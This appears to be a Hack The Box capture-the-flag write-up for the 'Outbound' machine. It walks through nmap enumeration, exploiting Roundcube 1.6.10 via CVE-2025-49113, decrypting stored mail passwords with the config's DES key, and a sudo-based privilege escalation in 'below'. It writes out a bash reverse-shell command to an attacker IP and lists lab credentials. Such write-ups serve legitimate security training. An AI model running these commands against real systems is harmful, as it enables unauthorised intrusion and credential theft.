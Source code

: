 ```yaml
---
slug: /write-up/htb/easy/outbound
pagination_next: null
pagination_prev: null
draft: true
---
```


As is common in real life pentests, you will start the Outbound box with credentials for the following account tyler / LhKL1o9Nm3X2

## Enumeration

Answers to pings:

```bash
└─$ ping 10.10.11.77                                                         
PING 10.10.11.77 (10.10.11.77) 56(84) bytes of data.
64 bytes from 10.10.11.77: icmp_seq=1 ttl=63 time=37.9 ms
64 bytes from 10.10.11.77: icmp_seq=2 ttl=63 time=38.6 ms
```

Initial nmap scan shows port 22 and 80 open:

```bash
└─$ nmap 10.10.11.77                          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-26 00:30 CEST
Nmap scan report for outbound.htb (10.10.11.77)
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
```

curl -vv reveals the domain: 
```
Location: http://mail.outbound.htb/
```

Entering the website, we see `Roundcube webmail`, the credentials are provided at the begining. We got inside the webmail.

Interestingly, there's an import section which allows the user to upload a file. This if not done properly, might allow the attacker to submit something nasty. Looks good!

Also there's an option to import contacts. Looks promising as well.

## Foothold

From the UI, we can see it's Roundcube Webmail 1.6.10. Let's check for vulnerabilities and boom:

- https://fearsoff.org/research/roundcube
- https://www.offsec.com/blog/cve-2025-49113/

We can close the Github poc and we can make the server connect to our machine to get a reverse shell:

```bash
└─$ php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c '/bin/bash -i >& /dev/tcp/10.10.15.19/9001 0>&1'"
```

It was curious because the command needed `bash -c` to get executed successfully. Apparently the problem is with the redirections and so on. If the shell is not bash, it will not work. When passing `bash -c` we are forcing the shell to execute the command as bash.

Now we are in, and we land in the web folder of the server. We can try to extract the user flag, but the user does not have privileges.

Now we need to do Lateral movement to get a user with higher permissions.

## Lateral movement

Looking at the configuration files for Roundcube, there's a user/password for MySQL:

```
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
```

Also something interesting came up, let's keep it just in case

```
// This key is used to encrypt the users imap password which is stored
// in the session record. For the default cipher method it must be
// exactly 24 characters long.
// YOUR KEY MUST BE DIFFERENT THAN THE SAMPLE VALUE FOR SECURITY REASONS
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

The session data is stored in base64 in the databaase. Once decoded, it reveals the password encrypted with the `des_key`. With a small python script, we can decrypt it and get the password for another user `jacob`:

jacob:595mO8DmwGeD

Now, we can access this emails. There's an email specifying the credentials to login into the machine under jacob's user and retrieve the user flag.

ssh jacob@mail.outbound.htb

with password `gY4Wr3a1evp4`

Now we need to escalate privileges to retrieve root flag.

## Escalating privileges

The welcome message shows it's ubuntu 24.

First checking what can do with sudo:

```
jacob@outbound:~$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

Apparently the user can run the below command as root without providing any password

And there's a CVE for below:

https://dollarboysushil.com/posts/CVE-2025-27591-Privilege-Escalation-in-below/

Following the process described there, below can be used to escalate privileges and retrieve the root flag.